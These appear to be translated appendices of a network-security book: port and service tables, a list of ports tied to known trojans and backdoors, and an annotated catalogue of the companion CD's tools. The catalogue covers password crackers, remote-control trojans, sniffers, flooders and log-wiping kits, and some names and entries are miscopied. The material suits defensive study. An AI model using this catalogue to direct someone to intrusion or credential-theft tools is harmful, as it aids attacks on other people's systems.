| sco-inetmgr | 611/tcp | 互联网配置管理器 |
| sco-inetmgr | 611/udp | 互联网配置管理器 |
| sco-sysmgr | 612/tcp | SCO 系统管理服务器 |
| sco-sysmgr | 612/udp | SCO 系统管理服务器 |
| sco-dtmgr | 613/tcp | SCO 桌面管理服务器 |
| sco-dtmgr | 613/udp | SCO 桌面管理服务器 |
| dei-icda | 614/tcp | DEI-ICDA |
| dei-icda | 614/udp | DEI-ICDA |
| digital-evm | 615/tcp | Digital EVM |
| digital-evm | 615/udp | Digital EVM |
| sco-webservermgr | 616/tcp | SCO WebServer 管理器 |
| sco-webservermgr | 616/udp | SCO WebServer 管理器 |
| escp-ip | 617/tcp | ESCP |
| escp-ip | 617/udp | ESCP |
| collaborator | 618/tcp | Collaborator |
| collaborator | 618/udp | Collaborator |
| aux_bus_shunt | 619/tcp | 辅助总线分流 |
| aux_bus_shunt | 619/udp | 辅助总线分流 |
| cryptoadmin | 620/tcp | 加密管理 |
| cryptoadmin | 620/udp | 加密管理 |
| dec_dlm | 621/tcp | DEC DLM |
| dec_dlm | 621/udp | DEC DLM |
| asia | 622/tcp | ASIA |
| asia | 622/udp | ASIA |
| passgo-tivoli | 623/tcp | PassGo Tivoli |
| passgo-tivoli | 623/udp | PassGo Tivoli |
| qmqp | 624/tcp | QMQP |
| qmqp | 624/udp | QMQP |
| 3com-amp3 | 625/tcp | 3Com AMP3 |
| 3com-amp3 | 625/udp | 3Com AMP3 |
| rda | 626/tcp | RDA |
| rda | 626/udp | RDA |
| ipp | 627/tcp | IPP（互联网打印协议） |
| ipp | 627/udp | IPP（互联网打印协议） |
| ipp | 628/tcp | IPP（互联网打印协议） |
| ipp | 628/udp | IPP（互联网打印协议） |
| ipp | 629/tcp | IPP（互联网打印协议） |
| ipp | 629/udp | IPP（互联网打印协议） |
| ipp | 630/tcp | IPP（互联网打印协议） |
| ipp | 630/udp | IPP（互联网打印协议） |
| ipp | 631/tcp | IPP（互联网打印协议） |
| ipp | 631/udp | IPP（互联网打印协议） |


## 守护进程 | 端口 | 服务

| 守护进程 | 端口 | 服务 |
|:---------------------------------------------|:-----|:--------------------------------------------|
| bcpp | 632/tcp | bcpp |
| bmpp | 632/udp | bmpp |
| servstat | 633/tcp | 服务状态更新 (Sterling Software) |
| servstat | 633/udp | 服务状态更新 (Sterling Software) |
| ginad | 634/tcp | ginad |
| ginad | 634/udp | ginad |
| rlzdbase | 635/tcp | RLZ DBase |
| rlzdbase | 635/udp | RLZ DBase |
| ldap | 636/tcp | 通过 TLS/SSL 的 ldap 协议 (原 sldap) |
| ldap | 636/udp | 通过 TLS/SSL 的 ldap 协议 (原 sldap) |
| lanserver | 637/tcp | lanserver |
| lanserver | 637/udp | lanserver |
| mcns-sec | 638/tcp | mcns-sec |
| mcns-sec | 638/udp | mcns-sec |
| msdp | 639/tcp | MSDP |
| msdp | 639/udp | MSDP |
| entrust-sps | 640/tcp | entrust-sps |
| entrust-sps | 640/udp | entrust-sps |
| repcmd | 641/tcp | repcmd |
| repcmd | 641/udp | repcmd |
| esro-emsdp | 642/tcp | ESRO-EMSDD V1.3 |
| esro-emsdp | 642/udp | ESRO-EMSDD V1.3 |
| sanity | 643/tcp | SANity |
| sanity | 643/udp | SANity |
| dwr | 644/tcp | dwr |
| dwr | 644/udp | dwr |
| pssc | 645/tcp | PSSC |
| pssc | 645/udp | PSSC |
| ldp | 646/tcp | LDP |
| ldp | 646/udp | LDP |
| dhcp-failover | 647/tcp | DHCP 故障切换 |
| dhcp-failover | 647/udp | DHCP 故障切换 |
| rrp | 648/tcp | 注册局协议 (RRP) |
| rrp | 648/udp | 注册局协议 (RRP) |
| aminet | 649/tcp | Aminet |
| aminet | 649/udp | Aminet |
| obex | 650/tcp | OBEX |
| obex | 650/udp | OBEX |
| ieee-nms | 651/tcp | IEEE MMS |
| ieee-nms | 651/udp | IEEE MMS |
| udlr-tcsp | 652/tcp | UDLR_DTCP |
| udlr-utcp | 652/udp | UDLR_DTCP |
| repsemad | 653/tcp | RepCmd |
| repsemad | 653/udp | RepCmd |
| aodv | 654/tcp | AODV |
| aodv | 654/udp | AODV |
| tine | 655/tcp | TINC |
| tine | 655/udp | TINC |
| spmp | 656/tcp | SPMP |
| spmp | 656/udp | SPMP |
| rmc | 657/tcp | RMC |
| rmc | 657/udp | RMC |
| tenfold | 658/tcp | TenFold |
| tenfold | 658/udp | TenFold |
| url-rendezvous | 659/tcp | URL 会合 |
| url-rendezvous | 659/udp | URL 会合 |
| mac-syr-admin | 660/tcp | MacOS 服务器管理 |
| mac-syr-admin | 660/udp | MacOS 服务器管理 |
| hap | 661/tcp | HAP |
| hap | 661/udp | HAP |
| ptfp | 662/tcp | PFTP |
| ptfp | 662/udp | PFTP |
| purenoise | 663/tcp | PureNoise |
| purenoise | 663/udp | PureNoise |
| secure-aux-bus | 664/tcp | 安全辅助总线 |
| secure-aux-bus | 664/udp | 安全辅助总线 |
| sun-dr | 665/tcp | Sun DR |
| sun-dr | 665/udp | Sun DR |
| mdqs | 666/tcp | mdqs |
| mdqs | 666/udp | mdqs |
| doom | 666/tcp | doom Id Software |
| doom | 666/udp | doom Id Software |
| meocomm | 668/udp | MeComm |
| mererister | 669/tcp | MeRegister |
| mererister | 669/udp | MeRegister |
| vadsm-sus | 670/tcp | VACDSM-SWS |
| vadsm-sus | 670/udp | VACDSM-SWS |
| vadsm-app | 671/tcp | VACDSM-APP |
| vadsm-app | 671/udp | VACDSM-APP |
| vpps-qua | 672/tcp | VPPS-QUA |
| vpps-qua | 672/udp | VPPS-QUA |
| complex | 673/tcp | CIMPLEX |
| complex | 673/udp | COMPLEX |
| acap | 674/tcp | ACAP |
| acap | 674/udp | ACAP |
| dctp | 675/tcp | DCTP |
| dctp | 675/udp | DCTP |
| vppe-via | 676/tcp | VPPE Via |
| vppe-via | 676/udp | VPPE Via |
| vpp | 677/tcp | 虚拟存在协议 |
| vpp | 677/udp | 虚拟存在协议 |
| ggf-ncp | 678/tcp | GNU 生成基金会 NCP |
| ggf-ncp | 678/udp | GNU 生成基金会 NCP |
| mrm | 679/tcp | MRM |
| mrm | 679/udp | MRM |
| entrust-aaas | 680/tcp | entrust-aaas |
| entrust-aaas | 680/udp | entrust-aaas |
| entrust-aams | 681/tcp | entrust-aams |
| entrust-aams | 681/udp | entrust-aams |
| xfr | 682/tcp | XFR |
| xfr | 682/udp | XFR |
| corba-iop | 683/tcp | CORBA IOP |
| corba-iop | 683/udp | CORBA IOP |
| corba-iop-ssl | 684/tcp | CORBA IOP SSL |
| corba-iop-ssl | 684/udp | CORBA IOP SSL |
| mdc-portmapper | 685/tcp | MDC 端口映射器 |
| mdc-portmapper | 685/udp | MDC 端口映射器 |
| hcp-wismar | 686/tcp | 硬件控制协议 Wismar |
| hcp-wismar | 686/udp | 硬件控制协议 Wismar |
| asipregistry | 687/tcp | asipregistry |
| asipregistry | 687/udp | asipregistry |
| realm-rusd | 688/tcp | REALM-RUSD |
| realm-rusd | 688/udp | REALM-RUSD |
| nmap | 689/tcp | NMAP |
| nmap | 689/udp | NMAP |
| vatp | 690/tcp | VATP |
| vatp | 690/udp | VATP |
| msench-routing | 691/tcp | MS Exchange 路由 |
| msench-routing | 691/udp | MS Exchange 路由 |
| hypermave-isp | 692/tcp | Hyperwave-ISP |
| hypermave-isp | 692/udp | Hyperwave-ISP |
| connendp | 693/tcp | connendp |
| connendp | 693/udp | connendp |
| ha-cluster | 694/tcp | ha-cluster |
| ha-cluster | 694/udp | ha-cluster |
| ieee-mms-ssl | 695/tcp | IEEE-MMS-SSL |
| ieee-mms-ssl | 695/udp | IEEE-MMS-SSL |
| rushd | 696/tcp | RUSD |
| rushd | 696/udp | RUSD |
| 697-703 | 未分配 | |
| elcsd | 704/tcp | erllog 复制/服务器守护进程 |
| elcsd | 704/udp | erllog 复制/服务器守护进程 |
| agentx | 705/tcp | AgentX |
| agentx | 705/udp | AgentX |
| silc | 706/tcp | SILC |
| silc | 706/udp | SILC |
| borland-dsj | 707/tcp | Borland DSJ |
| borland-dsj | 707/udp | Borland DSJ |
| 708 | 未分配 | |
| entmush-kmsh | 709/tcp | Entmush 密钥管理服务处理器 |
| entmush-kmsh | 709/udp | Entmush 密钥管理服务处理器 |
| entmush-ash | 710/tcp | Entmush 管理服务处理器 |
| entmush-ash | 710/udp | Entmush 管理服务处理器 |
| cisco-tdp | 711/tcp | Cisco TDP |
| cisco-tdp | 711/udp | Cisco TDP |
| 712-728 | 未分配 | |
| netviewdm1 | 729/tcp | IBM NetView DM/6000 服务器/客户端 |
| netviewdm1 | 729/udp | IBM NetView DM/6000 服务器/客户端 |
| netviewdm2 | 730/tcp | IBM NetView DM/6000 发送/tcp |
| netviewdm2 | 730/udp | IBM NetView DM/6000 发送/tcp |
| netviewdm3 | 731/tcp | IBM NetView DM/6000 接收/tcp |
| netviewdm3 | 731/udp | IBM NetView DM/6000 接收/tcp |
| 732-740 | 未分配 | |
| netgw | 741/tcp | netGW |
| netgw | 741/udp | netGW |
| netrcs | 742/tcp | 基于网络的反压控制系统 |
| netrcs | 742/udp | 基于网络的反压控制系统 |
| flexlm | 744/tcp | 柔性许可证管理器 |
| flexlm | 744/udp | 柔性许可证管理器 |
| fujitsu-dev | 747/tcp | 富士通设备控制 |
| fujitsu-dev | 747/udp | 富士通设备控制 |
| ris-cm | 748/tcp | Russell 信息科学日历管理器 |
| ris-cm | 748/udp | Russell 信息科学日历管理器 |
| kerberos-adm | 749/tcp | kerberos 管理 |
| kerberos-adm | 749/udp | kerberos 管理 |
| rfile | 750/tcp | |
| loadav | 750/udp | |
| kerberos-iv | 750/udp | kerberos 第四版 |
| pump | 751/tcp | |
| pump | 751/udp | |
| qrh | 752/tcp | |
| qrh | 752/udp | |
| rrh | 753/tcp | |
| rrh | 753/udp | |
| tell | 754/tcp | 发送 |
| tell | 754/udp | 发送 |
| nlogin | 758/tcp | |
| nlogin | 758/udp | |
| con | 759/tcp | |
| con | 759/udp | |
| ns | 760/tcp | |
| ns | 760/udp | |
| rxe | 761/tcp | |
| rxe | 761/udp | |
| quotad | 762/tcp | |
| quotad | 762/udp | |
| cycleserv | 763/tcp | |
| cycleserv | 763/udp | |
| omServ | 764/tcp | |
| omServ | 764/udp | |
| webster | 765/tcp | |
| webster | 765/udp | |
| phonebook | 767/tcp | 电话簿 |
| phonebook | 767/udp | 电话簿 |
| vid | 769/tcp | |
| vid | 769/udp | |
| cadlock | 770/tcp | |
| cadlock | 770/udp | |
| rtip | 771/tcp | |
| rtip | 771/udp | |
| cycleserv2 | 772/tcp | |
| cycleserv2 | 772/udp | |
| submit | 773/tcp | |
| notify | 773/udp | |
| rasswd | 774/tcp | |
| acmaint_dbd | 774/udp | |
| entomb | 775/tcp | |
| acmaint_transd | 775/udp | |
| wpages | 776/tcp | |
| wpages | 776/udp | |
| multiling-http | 777/tcp | 多语言 HTTP |
| multiling-http | 777/udp | 多语言 HTTP |
| 778-779 | 未分配 | |
| wpgs | 780/tcp | |
| wpgs | 780/udp | |
| concert | 786/tcp | Concert |
| concert | 786/udp | Concert |
| qsc | 787/tcp | QSC |
| qsc | 787/udp | QSC |
| 788-799 | 未分配 | |
| mdbs_daemon | 800/tcp | |
| mdbs_daemon | 800/udp | |
| device | 801/tcp | |
| device | 801/udp | |
| 802-809 | 未分配 | |
| fcp-udp | 810/tcp | FCP |
| fcp-udp | 810/udp | FCP 数据报 |
| 811-827 | 未分配 | |
| itm-mcel-s | 828/tcp | itm-mcel-s |
| itm-mcel-s | 828/udp | itm-mcel-s |
| pkix-3-ca-ra | 829/tcp | PKIX-3 CA/RA |
| pkix-3-ca-ra | 829/udp | PKIX-3 CA/RA |
| 830-872 | 未分配 | |
| rsync | 873/tcp | rsync |
| rsync | 873/udp | rsync |
| 875-885 | 未分配 | |
| iclnet-locate | 886/tcp | ICL coNETion 定位服务器 |
| iclnet-locate | 886/udp | ICL coNETion 定位服务器 |
| iclnet_svinfo | 887/tcp | ICL coNETion 服务器信息 |
| iclnet_svinfo | 887/udp | ICL coNETion 服务器信息 |
| accessbuilder | 888/tcp | AccessBuilder |
| cddbp | 888/tcp | CD 数据库协议 |
| 889-899 | 未分配 | |
| omginitialrefs | 900/tcp | OMG 初始引用 |
| omginitialrefs | 900/udp | OMG 初始引用 |
| smpnameres | 901/tcp | SMPNAMERES |
| smpnameres | 901/udp | SMPNAMERES |
| ideafarm-chat | 902/tcp | IDEAFARM-CHAT |
| ideafarm-chat | 902/udp | IDEAFARM-CHAT |


# 附录 C

## 守护进程端口服务表

以下按端口号列出了网络服务。

| 服务 | 端口/协议 | 描述 |
| :--- | :--- | :--- |
| idea farm-catch | 903/tcp | IDEAFARM-CATCH |
| idea farm-catch | 903/udp | IDEAFARM-CATCH |
| 未分配 | 904-910 | |
| xact-backup | 911/tcp | xact-backup |
| xact-backup | 911/udp | xact-backup |
| 未分配 | 912-988 | |
| ftp s-data | 989/tcp | ftp 协议，数据，基于 TLS/SSL |
| ftp s-data | 989/udp | ftp 协议，数据，基于 TLS/SSL |
| ftp s | 990/tcp | ftp 协议，控制，基于 TLS/SSL |
| ftp s | 990/udp | ftp 协议，控制，基于 TLS/SSL |
| nas | 991/tcp | Netnews 管理系统 |
| nas | 991/udp | Netnews 管理系统 |
| telnets | 992/tcp | 基于 TLS/SSL 的 telnet 协议 |
| telnets | 992/udp | 基于 TLS/SSL 的 telnet 协议 |
| imaps | 993/tcp | 基于 TLS/SSL 的 imap4 协议 |
| imaps | 993/udp | 基于 TLS/SSL 的 imap4 协议 |
| ircs | 994/tcp | 基于 TLS/SSL 的 irc 协议 |
| ircs | 994/udp | 基于 TLS/SSL 的 irc 协议 |
| pop3s | 995/tcp | 基于 TLS/SSL 的 pop3 协议 (原为 s pop3) |
| pop3s | 995/udp | 基于 TLS/SSL 的 pop3 协议 (原为 s pop3) |
| vsinet | 996/tcp | vsinet |
| vsinet | 996/udp | vsinet |
| maidtrd | 997/tcp | |
| maidtrd | 997/udp | |
| busboy | 998/tcp | |
| popup p | 998/udp | |
| garcon | 999/tcp | |
| applix | 999/udp | Applix ac |
| pup router | 999/tcp | |
| pup router | 999/udp | |
| cadlock 2 | 1000/tcp | |
| cadlock 2 | 1000/udp | |
| 未分配 | 1001-1009 | |
| 未分配 | 1008/udp | 可能由 Sun Solaris 使用 |
| surf | 1010/tcp | surf |
| surf | 1010/udp | surf |
| 保留 | 1011-1022 | |
| 保留 | 1023/tcp | |
| 保留 | 1023/udp | |
| 保留 | 1024/tcp | |
| 保留 | 1024/udp | |

# 附录 D

## 有害端口和服务

下表列出了对系统有害的端口和服务，这些通常作为木马使用：

| 端口 | 木马/服务 |
| :--- | :--- |
| 21 | Back Construction, Blade Runner, Doly Trojan, Fore, FTP 木马, Invisibile FTP, Larva, WebEx, WinCrash |
| 23 | Tiny Telnet Server (= TTS) |
| 25 | Ajan, Antigen, 邮件密码发送器, Haebu Coceda (=Naebi), Happy 99, Kuang2, ProMail 木马, Shtrilitz, Stealth, Tapiras, Terminator, WinPC, WinSpy |
| 31 | Agent 31, Hackers Paradise, Masters Paradise |
| 41 | DeepThroat |
| 59 | DMSetup |
| 79 | Firehoker |
| 80 | Executor, RingZero |
| 99 | Hidden Port |
| 110 | ProMail 木马 |
| 113 | Kazimas |
| 119 | Happy 99 |
| 121 | JammerKillah |
| 421 | TCP Wrappers |
| 456 | Hackers Paradise |
| 531 | Rasmin |
| 555 | InI-Killer, NeTAdmin, pHase Zero, Stealth Spy |
| 666 | Attack FTP, Back Construction, Cain & Abel, Satan 后门, ServeU, Shadow Phyre |
| 911 | Dark Shadow |
| 999 | DeepThroat, WinSatan |
| 1001 | Silencer, WebEx |
| 1010 | Doly 木马 |
| 1011 | Doly 木马 |
| 1012 | Doly 木马 |
| 1015 | Doly 木马 |
| 1024 | NetSpy |
| 1042 | Bla |
| 1045 | Rasmin |
| 1090 | Xtreme |
| 1170 | Psyber 流媒体服务器, 流媒体音频木马, Voice |
| 1234 | Ultors 木马 |
| 1243 | BackDoor-G, SubSeven, SubSeven Apocalypse |
| 1245 | VooDoo Doll |
| 1269 | Mavericks Matrix |
| 1349 (UDP) | BO DLL |
| 1492 | FTP99CMP |
| 1509 | Psyber 流媒体服务器 |
| 1600 | Shivka-Burka |
| 1807 | SpySender |
| 1981 | Shockrave |
| 1999 | BackDoor, TransScout |
| 2000 | TransScout |
| 2001 | TransScout, Trojan Cow |
| 2002 | TransScout |
| 2003 | TransScout |
| 2004 | TransScout |
| 2005 | TransScout |
| 2023 | Ripper |
| 2115 | Bugs |
| 2140 | DeepThroat, The Invapor |
| 2155 | Illusion Mailer |
| 2283 | HVL Rat5 |
| 2565 | Striker |
| 2583 | WinCrash |
| 2600 | Digital RootBeer |
| 2801 | Phineas Phucker |
| 2989 (UDP) | RAT |
| 3024 | WinCrash |
| 3128 | RingZero |
| 3129 | Masters Paradise |
| 3150 | DeepThroat, The Invapor |
| 3459 | Eclipse 2000 |
| 3700 | Portal of Doom |
| 3791 | Eclypse |
| 3801 (UDP) | Eclypse |
| 4092 | WinCrash |
| 4321 | BoBo |
| 4567 | File Nail |
| 4590 | ICQTrojan |
| 5000 | Bubbel, Back Door Setup, Sockets de Troie |
| 5001 | Back Door Setup, Sockets de Troie |
| 5011 | 最后几个木马之一 (OOTL) |
| 5031 | NetMetro |
| 5321 | Firehotcker |
| 5400 | Blade Runner, Back Construction |
| 5401 | Blade Runner, Back Construction |
| 5402 | Blade Runner, Back Construction |
| 5512 | Illusion Mailer |
| 5550 | Xtcp |
| 5555 | ServeMe |
| 5556 | BO Facil |
| 5557 | BO Facil |
| 5569 | Robo-Hack |
| 5742 | WinCrash |
| 6400 | The Thing |
| 6669 | Vampyre |
| 6670 | DeepThroat |
| 6771 | DeepThroat |
| 6776 | BackDoor-G, SubSeven |
| 6912 | Shit Heep (不是端口 69123!) |
| 6939 | Indoctrination |
| 6969 | GateCrasher, Priority, IRC 3 |
| 6970 | GateCrasher |
| 7000 | Remote Grab, Kazimas |
| 7300 | NetMonitor |
| 7301 | NetMonitor |
| 7306 | NetMonitor |
| 7307 | NetMonitor |
| 7308 | NetMonitor |
| 7789 | Back Door Setup, ICKiller |
| 8080 | RingZero |
| 9400 | InCommand |
| 9872 | Portal of Doom |
| 9873 | Portal of Doom |
| 9874 | Portal of Doom |
| 9875 | Portal of Doom |
| 9876 | Cyber Attacker |
| 9878 | TransScout |
| 9989 | Ini-Killer |
| 10067 (UDP) | Portal of Doom |
| 10101 | BrainSpy |
| 10167 (UDP) | Portal of Doom |
| 10520 | Acid Shivers |
| 10607 | Coma |
| 11000 | Senna 间谍 |
| 11223 | Progenic 木马 |
| 12076 | Gjamcr |
| 12223 | Hack'99 键记录器 |
| 12345 | GabanBus, NetBus, Pie Bill Gates, X-bill |
| 12346 | GabanBus, NetBus, X-bill |
| 12361 | Whack-a-mole |
| 12362 | Whack-a-mole |
| 12631 | WhackJob |
| 13000 | Senna 间谍 |
| 16969 | Priority |
| 17300 | Kuang2 病毒 |
| 20000 | Millennium |
| 20001 | Millennium |
| 20034 | NetBus 2 Pro |
| 20203 | Logged |
| 21544 | Girlfriend |
| 22222 | Prosiak |
| 23456 | Evil FTP, Ugly FTP, Whack Job |
| 23476 | Donald Dick |
| 23477 | Donald Dick |
| 26274 | Delta Source |
| 29891 (UDP) | The Unexplained |
| 30029 (UDP) | AOL 木马 |
| 30100 | NetSphere |
| 30101 | NetSphere |
| 30102 | NetSphere |
| 30303 | Sockets de Troie |
| 30999 | Kuang2 |
| 31336 | Bo Whack |
| 31337 | Baron Night, BO Cllent, BO2, Bo Facil, BackFire, Back Orifice, DeepBO |
| 31338 | Back Orifice, DeepBO |
| 31338 (UDP) | NetSpy DK |
| 31339 (UDP) | NetSpy DK |
| 31666 | BOWhack |
| 31785 | Hack`a Tack |
| 31787 | Hack`a Tack |
| 31788 | Hack`a Tack |
| 31789 | Hack`a Tack |
| 31791 (UDP) | Hack`a Tack |
| 31792 (UDP) | Hack`a Tack |
| 33333 | Prosiak |
| 33911 | Spirit 2001a |
| 34324 | BigGluck, TN |
| 40412 | The Spy |
| 40421 | Agent 40421, Masters Paradise |
| 40422 | Masters Paradise |
| 40423 | Masters Paradise |
| 40426 | Masters Paradise |
| 47262 | Delta Source |
| 50505 | Sockets de Troie |
| 50766 | Fore, Schwindler |
| 53001 | 远程 Windows 关机 |
| 54320 | Back Orifice 2000 |
| 54321 | School Bus |
| 54321 (UDP) | Back Orifice 2000 |
| 60000 | DeepThroat |
| 61466 | Telecommando |
| 65000 | Devil |

# 附录 E

## CD 内容

附录 E 包含本书后随附 CD 中包含组件的概要。CD 中的大多数程序都可以直接执行，无需本地安装和配置。下文图 E.1 中的目录列表包含本附录概要的根文件夹类别。


*图 E.1 随附 CD 组件。*


*图 E.2 搜索老虎工具库。*

## 老虎工具 2000

**文件：** TT2K.HTM（使用兼容框架的 Web 浏览器打开）

**要求：** Windows/LINUX/Solaris/OS2/Mac；兼容框架的 Web 浏览器

老虎工具 2000（见图 E.2）拥有超过 15,000 个安全资源，是互联网上最大的库和链接结构。跟踪这些超链接需要本地互联网访问。库中还包含完整的原始 Rainbow Books 系列，该系列涵盖了国防部 (DOD) 计算机安全标准。该系列（因每本书颜色不同而得名）根据国家安全局 (NSA) 对“可信计算机系统”进行评估。

要在此部分中快速搜索特定主题，请使用浏览器的编辑/查找菜单功能。

## TigerSuite（参见第 12 章）

**文件：** TSmobile.EXE（运行以从 CD 启动 TS）

**文件：** TSetup.EXE（运行以安装到本地硬盘）

**要求：** Windows 9x, NT, 2000

TigerSuite 是第一个完整的 TigerBox 工具集；它是作者专为新一代 Windows 设计并编程的，并在本书中首次发布。TigerSuite 的开发旨在提供计算机行业特有的网络安全工具，这些工具是个人、商业机构、网络专业人士和关注维护安全网络的企业管理人员迫切需要的。此类安全违规包括个人攻击、外部攻击以及试图查看或利用机密公司信息与组织或个人作对的内部的尝试。

该套件可用于促进分析，以检查和测试个人计算机和网络的潜在安全风险，并针对安全漏洞进行加固。TigerSuite 的目标是消除安全的神秘感，并将其直接带给消费者和/或技术专业人士，使其回归本应所在的位置。

## 第 5 章

扫描可利用的安全漏洞并跟踪那些对特定需求有益或有用的漏洞并不是什么新鲜事。扫描程序报告这些响应者，分析弱点，并将这些漏洞与已知黑客方法数据库进行交叉引用以进一步说明。

扫描过程可分为三个步骤：定位节点、对其执行服务发现，以及测试这些服务是否存在已知的安全漏洞。此目录包含第 5 章中定义的各种扫描器。

### jakal

**文件：** UNIX jakal.c.gz

**要求：** Linux/Solaris


### 在扫描器中
在众多扫描器中，kakal 属于比较流行的“隐形”或“半扫描”类型之一。

## nmap
**文件：** UNIX nmap-2.53.tgz
**要求：** Linux、FreeBSD、NetBSD、OpenBSD、Solaris、IRIX、BSDI

nmap 工具在扫描大型网络的端口方面享有盛名，尽管它在单台主机上也表现良好。

## SAFEsuite
**要求：** Windows NT、Linux、Solaris、SunOS、HPUX、AIX

SAFEsuite 是一款安全应用，也可识别网络中的安全“热点”。

## SATAN
**文件：** UNIX satan_tar.gz
**要求：** Linux、Solaris、IRIX

如其缩写所定义，这是一个用于分析网络的安全管理员工具。

## 第 8 章
大量的漏洞渗透技术用于证实并利用在安全分析发现和站点扫描阶段发现的漏洞。黑客通常使用这些方法来获取管理员访问权限，突破并控制计算机、服务器和网络互连设备。

### 后门工具包
**文件：** UNIX telnet-acker.c, UNIX crackpipe.c

即使面对新的防火墙、过滤器、代理和/或已修补的漏洞等障碍，黑客通常也希望保留对已渗透系统的访问权限。为了实现这一点，攻击者必须安装一个能完成任务且不易被检测到的后门。

### 泛洪攻击工具
**文件：** UNIX ping.c, UNIX pong.c, UNIX synflood.c

黑客使用恶意的渗透攻击，即泛洪攻击，使部分或所有网络服务不可用。

### 日志破坏工具
**文件：** UNIX cloakerr.c, UNIX convert.c, UNIX W95klog.c

黑客使用日志破坏工具、擦除工具和轨迹编辑机制（如反键击记录器）来编辑审计轨迹，以此作为访问系统时掩盖其踪迹的方法。

### 邮件炸弹和垃圾邮件发送者
- avaranch.zip
- bombsquad.zip
- upyours.zip

邮件炸弹是技术时代恶意骚扰的实例。邮件炸弹实际上是电子邮件消息，用于使收件人的电子信箱崩溃，或者通过利用非法的 SMTP 网关发送未经授权邮件来进行垃圾邮件轰炸。

### 密码破解器
忘记密码？你的密码被毁了吗？需要访问受密码保护的文件或系统吗？前员工离开时没有保护他们的文件吗？或者你只是想了解黑客如何访问你的网络、系统和受保护的文件？如果是这样，这些文件可以帮助你恢复密码。

**程序：**
- BIODemo
- IPC
- PassG115
- PWDump
- UnSecure v1.2
- Ami BIOS Cracker
- Ami BIOS Decoder
- Award BIOS v4.22 Password Cracker
- Kill CMOS
- WINBIOS
- Snap Cracks POP
- CAIN
- CracPk18
- UNIX POP3HACK.C
- RiPFTPServer
- WebCrack
- Aim1
- Aim2
- Aim3
- Arjcrack
- UNIX ASMCrack256
- Autohack
- Award
- azpr244
- Breakzip
- brkarj10
- caymore10
- cmos
- cmoscrack
- UNIX crack-2a.tgz
- cracker13
- crakerjack
- crackfaq
- crackpe
- datecrac
- dictionaries word files
- e-pwdcache.zip
- UNIX eggh.tgz
- UNIX egghack.tar.gz
- entryle.zip
- eudpass.zip
- excelerack.zip
- UNIX fasteracker.tgz
- fastzip.zip
- UNIX gammaprogr153.tgz
- glide.zip
- hades.zip
- hc130.zip
- hinterack.zip
- howtocrk.zip
- hypno.zip
- vjack14.zip
- jill_v20.zip
- UNIX john-1.6.tar.gz
- john-15d.zip
- john-15w.zip
- john-16d.zip
- john-16w.zip
- UNIX john-1_5_.tar.gz
- k2vl017.zip
- UNIX kc9_11.tar
- killcmos.zip
- killer_cracker.zip
- mincrack.zip
- msckkey.zip
- msword.zip
- newpw.zip
- ntu_crack.zip
- pasthief.exe
- pgp_crack.zip
- pgp_pass.zip
- rawcopy.zip
- revelation1.1.exe
- UNIX saltine-cracker-1.05.tar.gz
- samdump.zip
- scrack15.zip
- scrnrack.zip
- AMI BIOS password cracker
- UNIX ARJ password cracker
- Screensaver password cracker
- UNIX slurpie.tgz
- sqlbf.zip
- thermoprog.zip
- UNIX thetaprog.tgz
- ucfifire.zip
- ucfjohn1.zip
- ucfjohn2.zip
- ultraprog.zip
- UNIX Microsoft private key encryption cracker
- Windows NT brute force program
- UNIX Password sniffing/cracking tool
- Access database password cracker
- Microsoft Excel password cracker
- Share password cracker
- PDC brute-force password cracker
- Win95 cached password cracker
- Web site brute-force password cracker
- Microsoft Word password cracker
- WordPerfect password cracker
- UNIX password cracker
- Windows NT password cracker
- Winssock password cracker
- Zip file password cracker
- Zipcracker
- UNIX Zipcracker
- Zipcracker

### 远程控制程序
随着电子邮件、聊天、FTP 和 HTTP 下载等高级协作技术的发展，市面上流通的若干程序使迄今为止见过的任何病毒都显得像无害的小儿把戏。这些程序允许互联网上的任何人远程控制网络服务器或个人电脑。它们可以收集所有密码、访问所有账户（包括电子邮件）、修改所有文档、共享硬盘、记录击键、查看屏幕，甚至通过计算机麦克风窃听对话。最糟糕的是，受害者根本不知道这一切正在发生。

**文件：**
- bok2.zip
- NetBus170.zip
- NetBusPro201.exe
- sub7_1_7.zip

### 网络嗅探器
嗅探器是一种软件程序，用于隐蔽地监视计算机上的网络流量，拦截它们被编程要拦截的任何类型的数据，例如包含“password”（密码）一词的数据块。

**程序：**
- Analyzer
- Analyzer hhuupd
- UNIX Anger
- UNIX Apps
- ButtSniffer
- UNIX Cold
- UNIX dSniff
- UNIX Echelon for Dummies
- UNIX EPAN
- UNIX EtherReal
- EtherLoad
- EtherSpy
- Fergie
- UNIX ExDump
- UNIX GetData
- Gobbler
- UNIX Hunt
- UNIX IPAudit
- UNIX IPGrab
- UNIX IPPacket
- UNIX K-ARP-Ski
- UNIX NDump
- UNIX NetPacket
- UNIX NetPeek
- UNIX NetWatch
- UNIX NetRAWIP
- UNIX NetXMon
- UNIX ngrep
- UNIX nstreams
- UNIX PassMon
- UNIX PPTP sniffer
- UNIX Ethereal Packet Sniffer
- UNIX Ethernet sniffer and decryptor
- UNIX PPTP sniffer
- UNIX SNMP sniffer
- UNIX IRIX Sniffer
- UNIX WWW Sniffer
- UNIX Ethernet sniffer
- UNIX LinSniffer
- UNIX SniffIt
- UNIX SNMPSniff
- Snoop
- UNIX Snuff
- SpyNet
- UNIX Sun Sniffer Reporter
- UNIX Sun SolSniffer
- UNIX TCPDump
- UNIX TCPFlow
- UNIX TCP monitor
- UNIX SMB Sniffer
- UNIX TCP Listen
- WebSniffer
- UNIX WeedLog
- WinDump
- WinDump Packet 2K
- WinDump Packet 9x
- WinDump Packet NT
- UNIX Xip
- UNIX XipDump

### 欺骗工具
黑客通常使用 IP 和 DNS 欺骗技术来接管受信任主机的身份，从而破坏目标主机的安全。

**程序：**
- Chaos Spool
- Command IP Spoofer
- DC_is
- Dr. Spewfy
- UNIX Erect 97
- Fake IP
- IP Spoofer
- Wingate Spooing
- Domain Wnspool
- X-Idtnt v. 1.5

### 特洛伊木马感染程序
特洛伊木马感染程序是一种恶意的、破坏安全的程序，伪装成无害的东西。特洛伊木马通常用于在系统安全性中集成一个后门或漏洞，这是设计者或维护者故意留下的。

**程序：**
- BoFreeze
- Cleaner 2
- Coma
- GirlFriend v1.35
- Jammer
- NetBus v1.7
- Masters Paradise loader
- Masters Paradise
- NetBus Windows Trojan
- NetBus Pro Windows Trojan
- Prosiac
- Smart Guard II
- Stealth Spy
- SubSeven v1.7
- Back Orifice 2000 Windows Trojan
- Windows Trojan remover
- Windows Trojan bundler
- Full read/write share Trojan

### 病毒工具包
